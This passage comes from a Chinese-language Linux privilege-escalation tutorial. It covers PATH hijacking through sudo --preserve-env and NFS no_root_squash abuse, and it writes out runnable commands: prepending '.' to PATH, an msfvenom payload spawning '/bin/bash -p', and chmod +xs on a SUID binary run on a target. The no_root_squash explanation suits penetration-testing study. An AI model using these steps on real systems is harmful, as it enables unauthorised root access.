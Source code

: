 ```
或

把当前目录加到环境变量最靠前的位置
export PATH=.:$PATH
```
4、执行目标文件，完成提权
```
指定环境变量，执行对象命令或文件
sudo --preserve-env=PATH /usr/bin/check_syslog.sh

或直接执行
./script/shell
```
## 6.16、NFS提权

### 可用标志
```
cat /etc/exports
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
no_root_squash 是 NFS（Network File System）共享设置中的⼀个选项。它的作⽤是允许 root ⽤户 

在 NFS 客户端机器上拥有和在 NFS 服务器上相同的权限。 

### 使用方法

在kali中：
```
挂载共享目录
mount -o rw,vers=3 10.10.10.12:/tmp /nfs
生成payload
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /nfs/shell.elf
加权限
chmod +xs shell.elf
```
在靶机中：
```
执行payload
/tmp/shell.elf
```
### 原理

默认情况下，NFS 使⽤ root_squash 选项，这意味着在 NFS 客户端上，root ⽤户的所有请求都被映射为⼀个匿名⽤户（通常是 nobody 或 nfsnobody ），这样可以防⽌客户端的 root ⽤户在 NFS 共享上进⾏任意操作。 

然⽽，如果你设置了 no_root_squash 选项，那么在 NFS 客户端上的 root ⽤户就可以像在本地⽂件系统上⼀样，拥有对 NFS 共享的完全控制权限。这在某些情况下可能是必要的，但是也可能引⼊安全⻛险，因为任何可以在客户端获取 root 权限的⽤户都可以在 NFS 共享上进⾏任意操作。因此， no_root_squash 选项应该谨慎使⽤，只在确实需要 root ⽤户在 NFS 客户端上拥有完全权限的情况下才使⽤。 

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check) 命令详解

- 我想让所有的主机都能访问 /tmp ⽬录
- 并且他们可以进⾏读写（ rw ）
- 我想要所有的写操作都⽴即⽣效（ sync ）
- 我允许使⽤⾮保留端⼝连接（ insecure ）
- 我不希望将 root ⽤户请求映射为匿名⽤户（ no_root_squash ）
- 并且我不希望进⾏⼦树检查（ no_subtree_check ）
